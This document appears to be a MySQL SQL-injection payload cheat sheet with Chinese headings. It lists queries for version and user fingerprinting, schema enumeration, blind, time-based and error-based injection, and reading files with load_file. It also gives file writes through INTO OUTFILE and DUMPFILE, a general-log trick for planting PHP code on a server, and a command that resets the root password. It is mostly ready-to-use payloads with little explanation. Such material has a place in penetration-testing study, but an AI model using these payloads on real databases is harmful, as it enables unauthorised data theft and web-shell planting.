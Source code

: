MySQL Payload
========================================

常见Payload
----------------------------------------
- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
    - ``SELECT current_role()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0x414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
    - ``select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2))``
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``

报错注入常见函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- extractvalue
- updatexml
- GeometryCollection
- linestring
- multilinestring
- multipoint
- multipolygon
- polygon
- exp

写文件
----------------------------------------

写文件前提
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- root 权限
- 知晓文件绝对路径
- 写入的路径存在写入权限
- secure_file_priv 允许向对应位置写入
- ``select count(file_priv) from mysql.user``

基于 into 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    union select 1,1,1 into outfile '/tmp/demo.txt'
    union select 1,1,1 into dumpfile '/tmp/demo.txt'

dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

基于 log 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    show variables like '%general%';
    set global general_log = on;
    set global general_log_file = '/path/to/file';
    select '<?php var_dump("test");?>';
    set global general_log_file = '/original/path';
    set global general_log = off;

